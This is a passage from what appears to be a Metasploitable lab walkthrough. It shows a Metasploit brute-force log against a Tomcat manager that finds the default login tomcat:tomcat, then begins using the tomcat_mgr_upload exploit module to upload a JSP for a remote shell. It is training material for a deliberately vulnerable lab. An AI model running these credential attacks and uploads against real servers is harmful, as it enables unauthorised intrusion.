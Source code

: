```
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: role1:manager (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: role1:role1 (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: role1:root (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: role1:tomcat (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: role1:s3cret (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: root:root (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: root: (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: root:admin (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: root:manager (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: root:role1 (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: root:root (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: root:tomcat (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: root:s3cret (Incorrect: )
[+] 10.0.0.27:8180 - LOGIN SUCCESSFUL: tomcat:tomcat
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: both:both (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: both: (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: both:admin (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: both:manager (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: both:role1 (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: both:root (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: both:tomcat (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: both:s3cret (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: j2deployer:j2deployer (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: ovwebusr:OvW*busr1 (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: cxsdk:kdsxc (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: root:owaspbwa (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: ADMIN:ADMIN (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: xampp:xampp (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: QCC:QLogic66 (Incorrect: )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Success! The username/password tomcat/tomcat will get us access to the server.
Uploading Java Executable with Metasploit

Just as obtaining a remote shell on the web server with Apache required uploading and executing a PHP script (see Metasploitable/Apache/DAV), obtaining a remote shell on the web server will require uploading and executing a file - but for Tomcat, the executable must be a JSP (JavaServer Pages) application.
Automated Metasploit File Upload

This is contained in the tomcat_mgr_upload module:
```
msf auxiliary(dir_scanner) > use exploit/multi/http/tomcat_mgr_upload
msf exploit(tomcat_mgr_upload) > show options

Module options (exploit/multi/http/tomcat_mgr_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    no        The password for the specified username
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      80               yes       The target port
   TARGETURI  /manager         yes       The URI path of the manager app (/html/upload and /undeploy will be used)
   USERNAME                    no        The username to authenticate as
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
```